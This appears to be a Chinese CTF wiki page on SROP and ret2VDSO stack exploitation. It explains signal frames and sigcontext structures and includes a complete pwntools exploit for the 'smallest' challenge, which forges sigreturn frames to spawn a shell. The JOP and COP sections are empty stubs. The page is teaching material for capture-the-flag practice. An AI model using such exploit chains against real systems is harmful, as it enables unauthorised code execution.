        'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
        '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
    core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
    __init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

题目
----

SROP
^^^^^^^^^^^^

基本介绍
--------

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit
Amsterdam的Erik Bosman提出，其相关研究 **``Framing Signals — A Return to Portable Shellcode``** 发表在安全顶级会议 `Oakland
2014 <http://www.ieee-security.org/TC/SP2014>`_ 上，被评选为当年的 `Best Student Papers <http://www.ieee-security.org/TC/SP2014/awards.html>`_ 。其中相关的paper以及slides的链接如下：

`paper <http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf>`_

`slides <https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf>`_

其中， ``sigreturn`` 是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

signal机制
----------

signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

.. figure:: /pwn/stackoverflow/figure/ProcessOfSignalHandlering.png
   :alt: Process of Signal Handlering

   Process of Signal Handlering

1. 内核向某个进程发送signal机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文， **主要是将所有寄存器压入栈中，以及压入signal信息，以及指向sigreturn的系统调用地址** 。此时栈的结构如下图所示，我们称ucontext以及siginfo这一段为Signal
   Frame。 **需要注意的是，这一部分是在用户进程的地址空间的。** 之后会跳转到注册过的signal
   handler中处理相应的signal。因此，当signal handler执行完之后，就会执行sigreturn代码。

.. figure:: /pwn/stackoverflow/figure/signal2-stack.png
   :alt: signal2-stack

   signal2-stack

对于signal
Frame来说，不同会因为架构的不同而因此有所区别，这里给出分别给出x86以及x64的sigcontext

-  x86

.. code-block:: c

	struct sigcontext
	{
	  unsigned short gs, __gsh;
	  unsigned short fs, __fsh;
	  unsigned short es, __esh;
	  unsigned short ds, __dsh;
	  unsigned long edi;
	  unsigned long esi;
	  unsigned long ebp;
	  unsigned long esp;
	  unsigned long ebx;
	  unsigned long edx;
	  unsigned long ecx;
	  unsigned long eax;
	  unsigned long trapno;
	  unsigned long err;
	  unsigned long eip;
	  unsigned short cs, __csh;
	  unsigned long eflags;
	  unsigned long esp_at_signal;
	  unsigned short ss, __ssh;
	  struct _fpstate * fpstate;
	  unsigned long oldmask;
	  unsigned long cr2;
	};

-  x64

.. code-block:: cpp

	struct _fpstate
	{
	  /* FPU environment matching the 64-bit FXSAVE layout.  */
	  __uint16_t        cwd;
	  __uint16_t        swd;
	  __uint16_t        ftw;
	  __uint16_t        fop;
	  __uint64_t        rip;
	  __uint64_t        rdp;
	  __uint32_t        mxcsr;
	  __uint32_t        mxcr_mask;
	  struct _fpxreg    _st[8];
	  struct _xmmreg    _xmm[16];
	  __uint32_t        padding[24];
	};

	struct sigcontext
	{
	  __uint64_t r8;
	  __uint64_t r9;
	  __uint64_t r10;
	  __uint64_t r11;
	  __uint64_t r12;
	  __uint64_t r13;
	  __uint64_t r14;
	  __uint64_t r15;
	  __uint64_t rdi;
	  __uint64_t rsi;
	  __uint64_t rbp;
	  __uint64_t rbx;
	  __uint64_t rdx;
	  __uint64_t rax;
	  __uint64_t rcx;
	  __uint64_t rsp;
	  __uint64_t rip;
	  __uint64_t eflags;
	  unsigned short cs;
	  unsigned short gs;
	  unsigned short fs;
	  unsigned short __pad0;
	  __uint64_t err;
	  __uint64_t trapno;
	  __uint64_t oldmask;
	  __uint64_t cr2;
	  __extension__ union
		{
		  struct _fpstate * fpstate;
		  __uint64_t __fpstate_word;
		};
	  __uint64_t __reserved1 [8];
   };

1. signal
   handler返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新pop回对应的寄存器，最后恢复进程的执行。其中，32位的 sigreturn 的调用号为77，64位的系统调用号为15。

攻击原理
--------

仔细回顾一下内核在signal信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在Signal Frame中。但是需要注意的是：

-  Signal Frame被保存在用户的地址空间中，所以用户是可以读写的。
-  由于内核与信号处理程序无关(kernel agnostic about signal
   handlers)，它并不会去记录这个signal对应的Signal
   Frame，所以当执行sigreturn系统调用时，此时的Signal
   Frame并不一定是之前内核为用户进程保存的Signal Frame。

说到这里，其实，SROP的基本利用原理也就出现了。下面举两个简单的例子。

获取shell
~~~~~~~~~

首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个Signal
Frame，如下图所示，这里以64位为例子，给出Signal Frame更加详细的信息

.. figure:: /pwn/stackoverflow/figure/srop-example-1.png
   :alt: signal2-stack

   signal2-stack

当系统执行完sigreturn系统调用之后，会执行一系列的pop指令以便于恢复相应寄存器的值，当执行到rip时，就会将程序执行流指向syscall地址，根据相应寄存器的值，此时，便会得到一个shell。

system call chains
~~~~~~~~~~~~~~~~~~

需要指出的是，上面的例子中，我们只是单独的获得一个shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可

-  **控制栈指针。**
-  **把原来rip指向的 ``syscall`` gadget换成 ``syscall; ret``
   gadget。**

如下图所示 ，这样当每次syscall返回的时候，栈指针都会指向下一个Signal
Frame。因此就可以执行一系列的sigreturn函数调用。

.. figure:: /pwn/stackoverflow/figure/srop-example-2.png
   :alt: signal2-stack

   signal2-stack

后续
~~~~

需要注意的是，我们在构造ROP攻击的时候，需要满足下面的条件

-  **可以通过栈溢出来控制栈的内容**
-  **需要知道相应的地址**
-  **"/bin/sh"**
-  **Signal Frame**
-  **syscal**
-  **sigreturn**
-  需要有够大的空间来塞下整个sigal frame

此外，关于sigreturn以及syscall;ret这两个gadget在上面并没有提及。提出该攻击的论文作者发现了这些gadgets出现的某些地址：

.. figure:: /pwn/stackoverflow/figure/srop-gadget-1.png
   :alt: gadget1

   gadget1

并且，作者发现，有些系统上SROP的地址被随机化了，而有些则没有。比如说 ``Linux < 3.3 x86_64`` （在Debian 7.0， Ubuntu Long Term Support， CentOS
6系统中默认内核），可以直接在vsyscall中的固定地址处找到syscall&return代码片段。如下

.. figure:: /pwn/stackoverflow/figure/srop-gadget-2.png
   :alt: gadget1

   gadget1

但是目前它已经被 ``vsyscall-emulate`` 和 ``vdso`` 机制代替了。此外，目前大多数系统都会开启ASLR保护，所以相对来说这些gadgets都并不容易找到。

值得一说的是，对于sigreturn系统调用来说，在64位系统中，sigreturn系统调用对应的系统调用号为15，只需要RAX=15，并且执行syscall即可实现调用syscall调用。而RAX寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说read函数的返回值为读取的字节数。

利用工具
--------

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

示例
----

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

.. code:: text

    ➜  smallest file smallest     
    smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped

可以看到该程序为64位静态链接版本。

**检查保护**

.. code:: text

    ➜  smallest checksec smallest     
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

.. code:: Asm

    public start
    start proc near
    xor     rax, rax
    mov     edx, 400h
    mov     rsi, rsp
    mov     rdi, rax
    syscall
    retn
    start endp

根据syscall的编号为0，可以知道改程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

-  通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
-  通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

.. code:: python

    from pwn import *
    from LibcSearcher import *
    small = ELF('./smallest')
    if args['REMOTE']:
        sh = remote('127.0.0.1', 7777)
    else:
        sh = process('./smallest')
    context.arch = 'amd64'
    context.log_level = 'debug'
    syscall_ret = 0x00000000004000BE
    start_addr = 0x00000000004000B0
    # set start addr three times
    payload = p64(start_addr) * 3
    sh.send(payload)

    # modify the return addr to start_addr+3
    # so that skip the xor rax,rax; then the rax=1
    # get stack addr
    sh.send('\xb3')
    stack_addr = u64(sh.recv()[8:16])
    log.success('leak stack addr :' + hex(stack_addr))

    # make the rsp point to stack_addr
    # the frame is read(0,stack_addr,0x400)
    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_read
    sigframe.rdi = 0
    sigframe.rsi = stack_addr
    sigframe.rdx = 0x400
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret
    payload = p64(start_addr) + 'a' * 8 + str(sigframe)
    sh.send(payload)

    # set rax=15 and call sigreturn
    sigreturn = p64(syscall_ret) + 'b' * 7
    sh.send(sigreturn)

    # call execv("/bin/sh",0,0)
    sigframe = SigreturnFrame()
    sigframe.rax = constants.SYS_execve
    sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
    sigframe.rsi = 0x0
    sigframe.rdx = 0x0
    sigframe.rsp = stack_addr
    sigframe.rip = syscall_ret

    frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
    print len(frame_payload)
    payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
    sh.send(payload)
    sh.send(sigreturn)
    sh.interactive()

其基本流程为

-  读取三个程序起始地址
-  程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
-  那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
-  利用第三个程序起始地址进而读入payload
-  再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
-  再次读取构造sigreturn调用，从而获取shell。

题目
----

-  `Defcon 2015 Qualifier: fuckup <https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344>`_

参考阅读

-  `Sigreturn Oriented Programming (SROP) Attack攻击原理 <http://www.freebuf.com/articles/network/87447.html>`_
-  `SROP by Angle Baby <https://www.slideshare.net/AngelBoy1/sigreturn-ori>`_
-  `系统调用 <http://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html>`_

ret2VDSO
^^^^^^^^^^^^^^^^^^^^

VDSO介绍
--------

什么是VDSO(Virtual Dynamically-linked Shared Object)呢？听其名字，大概是虚拟动态链接共享对象，所以说它应该是虚拟的，与虚拟内存一直，在计算机中本身并不存在。具体来说，它是将内核态的调用映射到用户地址空间的库。那么它为什么会存在呢？这是因为有些系统调用经常被用户使用，这就会出现大量的用户态与内核态切换的开销。通过vdso，我们可以大量减少这样的开销，同时也可以使得我们的路径更好。这里路径更好指的是，我们不需要使用传统的int
0x80来进行系统调用，不同的处理器实现了不同的快速系统调用指令

-  intel实现了sysenter，sysexit
-  amd实现了syscall，sysret

当不同的处理器架构实现了不同的指令时，自然就会出现兼容性问题，所以linux实现了vsyscall接口，在底层会根据具体的结构来进行具体操作。而vsyscall就实现在vdso中。

这里，我们顺便来看一下vdso，在Linux(kernel 2.6 or upper)中执行ldd
/bin/sh,
会发现有个名字叫linux-vdso.so.1(老点的版本是linux-gate.so.1)的动态文件,
而系统中却找不到它, 它就是VDSO。 例如:

.. code:: shell

    ➜  ~ ldd /bin/sh           
        linux-vdso.so.1 =>  (0x00007ffd8ebf2000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f84ff2f9000)
        /lib64/ld-linux-x86-64.so.2 (0x0000560cae6eb000)

除了快速系统调用，glibc也提供了VDSO的支持, open(), read(), write(),
gettimeofday()都可以直接使用VDSO中的实现。使得这些调用速度更快。
内核新特性在不影响glibc的情况下也可以更快的部署。

这里我们以intel的处理器为例，进行简单说明。

其中sysenter的参数传递方式与int 0x80一致，但是我们可能需要自己布置好
function prolog（32位为例）

.. code:: Asm

    push ebp
    mov ebp,esp

此外，如果我们没有提供functtion
prolog的话，我们还需要一个可以进行栈迁移的gadgets，以便于可以改变栈的位置。

原理
----

待补充。

题目
----

-  **Defcon 2015 Qualifier fuckup**

参考

-  http://man7.org/linux/man-pages/man7/vdso.7.html
-  http://adam8157.info/blog/2011/10/linux-vdso/

JOP
^^^^^

Jump-oriented programming

COP
^^^^^

Call-oriented programming
